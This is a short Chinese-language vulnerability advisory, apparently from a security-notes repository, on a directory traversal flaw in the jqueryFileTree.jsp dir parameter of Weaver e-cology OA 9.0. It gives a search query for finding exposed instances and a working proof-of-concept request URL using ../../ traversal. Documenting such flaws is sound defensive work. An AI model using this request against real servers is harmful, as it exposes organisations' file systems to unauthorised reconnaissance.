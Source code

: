 # 泛微OA E-Cology jqueryFileTree.jsp 目录遍历漏洞

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等，其中 jqueryFileTree.jsp 文件中 dir 参数存在目录遍历漏洞，攻击者通过漏洞可以获取服务器文件目录信息

## 漏洞影响

```
泛微e-cology 9.0
```

## 网络测绘

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![1](./images/202209131045944.png)

验证POC

```
/hrm/hrm_e9/orgChart/js/jquery/plugins/jqueryFileTree/connectors/jqueryFileTree.jsp?dir=/page/resource/userfile/../../
```

![2](./images/202209131046623.png)